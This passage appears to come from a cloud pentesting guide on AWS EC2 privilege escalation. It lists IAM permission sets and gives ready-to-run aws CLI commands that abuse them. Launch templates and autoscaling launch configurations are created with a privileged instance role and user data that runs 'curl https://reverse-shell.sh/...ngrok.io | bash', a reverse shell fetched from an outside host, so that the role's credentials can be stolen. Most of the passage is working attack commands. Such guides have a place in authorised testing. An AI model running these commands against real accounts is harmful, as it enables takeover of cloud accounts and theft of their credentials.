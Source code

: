 ```bash

aws ec2 start-instances --instance-ids $INSTANCE_ID
```

**Potential Impact:** Direct privesc to any EC2 IAM Role attached to a created instance.

### `ec2:CreateLaunchTemplateVersion`,`ec2:CreateLaunchTemplate`,`ec2:ModifyLaunchTemplate`

An attacker with the permissions **`ec2:CreateLaunchTemplateVersion`,`ec2:CreateLaunchTemplate`and `ec2:ModifyLaunchTemplate`** can create a **new Launch Template version** with a **rev shell in** the **user data** and **any EC2 IAM Role on it**, change the default version, and **any Autoscaler group** **using** that **Launch Templat**e that is **configured** to use the **latest** or the **default version** will **re-run the instances** using that template and will execute the rev shell.

```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 create-launch-template-version \
   --launch-template-name bad_template \
   --launch-template-data "{\"ImageId\": \"ami-0c1bc246476a5572b\", \"InstanceType\": \"t3.micro\", \"IamInstanceProfile\": {\"Name\": \"ecsInstanceRole\"}, \"UserData\": \"$REV\"}"

aws ec2 modify-launch-template \
   --launch-template-name bad_template \
   --default-version 2
```

**Potential Impact:** Direct privesc to a different EC2 role.

### (`autoscaling:CreateLaunchConfiguration` | `ec2:CreateLaunchTemplate`),  `iam:PassRole`, (`autoscaling:CreateAutoScalingGroup` | `autoscaling:UpdateAutoScalingGroup`)

An attacker with the permissions **`autoscaling:CreateLaunchConfiguration`,`autoscaling:CreateAutoScalingGroup`,`iam:PassRole`** can **create a Launch Configuration** with an **IAM Role** and a **rev shell** inside the **user data**, then **create an autoscaling group** from that config and wait for the rev shell to **steal the IAM Role**.

```bash
aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-launch-configuration \
   --launch-configuration-name bad_config \
   --image-id ami-0c1bc246476a5572b \
   --instance-type t3.micro \
   --iam-instance-profile EC2-CloudWatch-Agent-Role \
   --user-data "$REV"

aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-auto-scaling-group \
   --auto-scaling-group-name bad_auto \
   --min-size 1 --max-size 1 \
   --launch-configuration-name bad_config \
   --desired-capacity 1 \
   --vpc-zone-identifier "subnet-e282f9b8"
```
